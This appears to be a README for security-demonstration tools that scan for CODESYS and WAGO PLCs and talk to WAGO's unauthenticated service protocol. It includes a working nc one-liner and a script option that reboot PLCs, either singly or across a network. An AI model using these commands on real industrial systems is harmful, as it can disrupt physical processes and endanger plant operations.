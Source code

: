 ## Description
Tis repo is a collection of tools to highlight the weaknesses of legacy protocol, and to show the importance of a cybersec configuration. 

## scan_codesys.py

This Python script benefits of discovery protocol used by CODESYS 3 (on port 1740) to gather information about PLCs on a network. 
A predefined UDP frame is sent to a broadcast address on port 1740, and answers from PLCs are collected and parsed.
This is a reminder that this port isn't secure, should be disabled. The discover feature is useful but isn't mandatory in order to use CODESYS.

### Usage

`python3 scan_codesys.py 192.168.1.255`

Example of result :
`IP Address      Device Name          Complete Name                            Manufacturer              MAC Address
192.168.1.12   PFC300-68415F        WAGO 750-8302 PFC300 2ETH RS             WAGO                      0030DE684161
192.168.1.4    PFC200V3-48117C      WAGO 750-8210 PFC200 G2 4ETH             WAGO                      0030DE48117C
192.168.1.5    0030DE5A9782         750-8001 Basic Controller 100 2ETH       WAGO GmbH & Co. KG        37SUN31564010260523873+0000000000000176
`

## wagoservice.py

This Python script uses legacy protocol WAGO Service on port 6626, used by software like WAGO Ethernet Settings or WAGO I/O Check. 
This legacy protocol is unauthenticated. 
WAGO Ethernet Settings can be easily replaced by the Web Based Management, which is secure. 
WAGO I/O Check is used for configuration of I/O modules, but should be used only during the commissionning, ideally when the PLC isn't connected to the network. 
The script sends predefined TCP frame in order to gather information about WAGO PLCs and could be used to reboot the PLC. 
A discover function based on NMAP will WAGO devices with 6626 port open on the specified network.
When a network adress is provided, the reboot function will restart all WAGO devices... Be careful.

### Usage

`python3 wagoservice.py  <command> <address/network>`

where :
- command : info / reboot / discover
- address/network : can be a single IP address or a network in CIDN format (i.e 192.168.1.0/24)

Example and results :

python3 wagoservice.py discover 192.68.1.0/24
+---------------------+---------------------+---------------------+---------------------+---------------------+
| IP Address          | MAC Address         | PSN                 | SW-VER              | SN                  |
+---------------------+---------------------+---------------------+---------------------+---------------------+
| 192.168.1.1         | 00:30:DE:0A:93:56   | 750-880             | 01.08.25(16)        | SN20121115T113608-0416146#PFC|0030DE069605 |
| 192.168.1.2         | 00:30:DE:06:96:05   | 750-8001            | 01.04.02(00)        | SN20230403T202128-1738604#BC|0030DE5A9782 |
| 192.168.1.3         | 00:30:DE:5A:97:82   | 751-9301            | 04.06.03(28)        | 37SUN31564010260470190+0000000002347218 |
| 192.168.1.4         | 00:30:DE:4E:6F:EC   | 750-8302            | 04.06.01(28)        | 37SUN31564010260575922+0000000000001690 |
| 192.168.1.5         | 00:30:DE:68:41:5F   | 750-8210            | 04.05.10(27)        | 37SUN31564010260429954+0000000000000008 |
| 192.168.1.6         | 00:30:DE:48:11:7C   | 750-8217            | 03.10.10(22)        | 37SUN31564010260430577+0000000000003662 |
+---------------------+---------------------+---------------------+---------------------+---------------------+


## One-liner commands

Also based on WAGO Service protocol, this simple commands can be used to retrieve information or to reboot a WAGO PLC device.
Can be used directly on a WAGO Linux-based PLC.

### Get information
`echo '8812020001000100000000000000000002000801' | xxd -r -p | nc 192.168.1.10 6626`

### Reboot
`echo '8812320001000100000000000000000002000201' | xxd -r -p | nc 192.168.1.10 6626`

# Disclaimer  
This collection of tools is intended solely for legitimate and authorized use in conducting cybersecurity demonstration within a network. Users are required to obtain proper authorization from network owners or administrators before use.

The developer of this program assumes no responsibility for any unauthorized use or any consequences arising from the improper application of this tool. By using this tool, you agree that you have the necessary permissions and you assume all liability associated with its use. Please ensure compliance with all applicable laws and regulations regarding network scanning and cybersecurity practices.